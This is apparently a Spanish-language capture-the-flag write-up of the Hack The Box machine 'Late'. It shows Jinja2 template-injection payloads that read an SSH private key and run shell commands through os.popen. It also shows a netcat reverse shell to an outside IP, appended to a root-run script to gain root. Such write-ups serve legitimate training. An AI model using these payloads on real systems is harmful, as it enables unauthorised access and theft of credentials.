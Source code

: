 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Indice
Esta maquina es una de las sencillas en HtB. Aunque si batalle mucho a la hora del SSTI, tuve que investigar demasiado a fondo sobre esta vulnerabilidad, pero al final persistiendo en el intento lo logre.

## [](#header-2)<a href="#desarrollo">Desarrollo</a>
Despues del tipico escaneo con nmap, vimos que solamente teniamos abiertos los puertos 22 de ssh y 80 del servicio tcp, que correspondia a una pagina web. 
Navegando dentro del codigo de la pagina, encontramos un enlace a convertir tus propias imagenes con texto a texto e icimos la prueba para conocer mas sobre el motor al que le correspondia al procesador de flsk. Con la siguiente cadena:

```s
{{7*7}}
${7*7}
<%=7*7%> 
${{7*7}} 
#{7*7}
```

Solamente tenemos que anotarlo en un bloc de notas y tomarle una captura de pantalla, para despues subirlo en el images.Late.htb. Lo que nos daba como resultado en un result.txt, era una compilacion de codigo. El cual representaba una vulnerabilidad en SSTI. La cual viene a gran profundidad en <a href="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection">mi pagina favorita</a> y resulta que el motor que esta usando flask es jinja2. Batalle mucho a la hora de tomar las capturas de pantalla, recortar la imagen o simplemente encontrar las variables que se encontraban dentro del programa. El blog que estaba siguiendo no explicaba con claridad el comando que utilizo para llegar a los siguientes pasos, pero me tome la tarea de corregir errores agregando guines bajos '_' en las partes que no reconocia el script que subia. Los ejemplos de las imagenes que llegue a usar son:


Para poder ejecutar comandos de cmd:

![Os cmd](/assets/images/late/os_cmd_request.png)

Para solicitar la flag de usuraio:

![User flag](/assets/images/late/flag_request.png)

Respuesta de la captura anterior:

![Flag result](/assets/images/late/flag_txt.png)

Como en otras maquinas, podremos entrar con el usuario a traves del servicio de ssh, solamente tendremos que copiarnos el /home/svc_acc/id_rsa ya que es posible leerlo desde el servicio de jinja.
Podemos usar el script siguiente:

```s
{{ get_flashed_messages.__globals__.__builtins___.open("/home/svc_acc/.ssh/id_rsa").read() }}
```

Aqui presente problemas al generar el archivo `authorized_keys` por que como no se muestra en el resultado la correcta ejecusion del comando, tuve que ejecutarlo varias veces. Recomiendo que en el script que se utilice, contenga algo parecido a:

```s
{{ get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("cp /home/svc_acc/.ssh/id_rsa /home/svc_acc/.ssh/authorized_keys").read() }}

{{ get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("chmod 666 /home/svc_acc/.ssh/authorized_keys").read() }}

{{ get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("ls").read() }}
```

Con esto, no podremos ejecutar `ls -l` para ver que los permisos se hayan aplicado, pero al menos podremos ver que el archivo ha sido copiado.

Una vez teniendo la shell, y ejecutar el LinePeas, nos fuimos por lo mas sencillo para escalar privilegios que era en el archivo /usr/local/sbin/ssh-alert.sh que probablemente esta corriendo en todo momento, se puede utilizar pspy para echar un vistaso para ver que esta ocurriendo. La herramienta actualizada se encuentra en <a href="https://github.com/DominicBreuker/pspy">GIT</a> y observaremos con esta herramienta que el servicio lo esta utilizando el usuario con el UID=0, el cual es el perteneciente a root. Asi que procederemos a editar el archivo e inyectarle un script sencillo.

Para inyectar el codigo, primero hay que crear el archivo /tmp/append.txt, el cual dentro tendra:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.230 4444 >/tmp/f
```

y a continuacion solamente tendremos que ejecutar el comando:

```
cat /tmp/append.txt >> /usr/local/sbin/ssh-alert.sh
```

Hacemos un append de lo anterior en el archivo ssh-alert.sh, preparamos el reverse shell para capturarlo desde nuestra kali como normalmente lo hacemos con el nc -nlvp 4444, y finalmente obtenemos otra shell con un nuevo usuario que esta vez sera root. Para que se ejecute, bastara con cerrar la sesion con ssh que teniamos e inmediatamente iniciara la coneccion con netcat desde nuestra kali.

![User flag](/assets/images/late/root_access.png)

![Late powned](/assets/images/late/Late_pwnd.png)